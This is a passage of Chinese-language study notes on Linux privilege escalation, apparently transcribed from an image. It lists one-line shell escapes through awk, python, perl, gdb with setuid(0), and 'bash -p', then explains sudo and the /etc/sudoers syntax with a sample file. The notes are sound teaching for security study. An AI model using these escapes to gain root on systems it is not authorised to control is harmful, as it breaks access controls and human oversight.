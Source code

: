 4. awk：使用awk命令可以通过执行系统命令来提权，例如：
```
awk 'BEGIN {system("/bin/sh")}'
```

5. python：使用python解释器可以执行一些系统命令，例如：
```
python -c 'import os; os.system("/bin/sh")'
```

6. perl：使用perl解释器也可以执行系统命令，例如：
```
perl -e 'exec "/bin/sh";'
```

7. gdb：使用gdb调试器可以通过执行系统命令来提权，例如：
```
gdb -q -ex 'python import os; os.setuid(0); os.system("/bin/sh")' -ex quit
```

8. bash：如果bash版本较低，可以使用bash来提权，例如：
```
bash -p
```
9. cp、mv、less、more、man等
### sudo提权
sudo用于，给普通用户赋予root权限，使用本用户的密码即可
su用于切换用户
**/etc/sudoers文件**
/etc/sudoers 文件是一个用于配置 sudo 命令的配置文件，它定义了哪些用户可以以超级用户的权限执行特定的命令。sudo 是一种在 Linux 和 Unix 系统中允许普通用户以其他用户身份执行命令的机制。

sudoers 文件的权限设置为只有 root 用户可读和可写。只有 root 用户才能修改该文件。

sudoers 文件的语法比较特殊，使用了类似于 C 语言的语法。以下是 sudoers 文件的一些常用语法和配置选项：

1. 用户别名（User_Alias）：可以定义一组用户，以便在其他配置项中引用。
2. 命令别名（Cmnd_Alias）：可以定义一组命令，以便在其他配置项中引用。
3. 主机别名（Host_Alias）：可以定义一组主机，以便在其他配置项中引用。
4. 用户特权规则（User_Spec）：定义了哪些用户可以以超级用户的权限执行哪些命令。可以指定具体的用户、用户别名、主机别名、命令别名等。
5. 默认特权规则（Defaults）：定义了默认的特权规则，如默认的密码验证方式、默认的命令别名等。

以下是一个 sudoers 文件的示例：

```
# User privilege specification
root    ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# Allow user john to execute specific commands without password
john    ALL=(ALL) NOPASSWD: /bin/ls, /sbin/reboot
```

在上述示例中，第一行表示超级用户 "root" 可以以任何用户和任何主机的身份执行任何命令。第三行表示属于 sudo 用户组的用户可以以任何用户和任何主机的身份执行任何命令。第五行表示用户 "john" 可以以任何用户和任何主机的身份执行 "/bin/ls" 和 "/sbin/reboot" 命令，而无需输入密码。
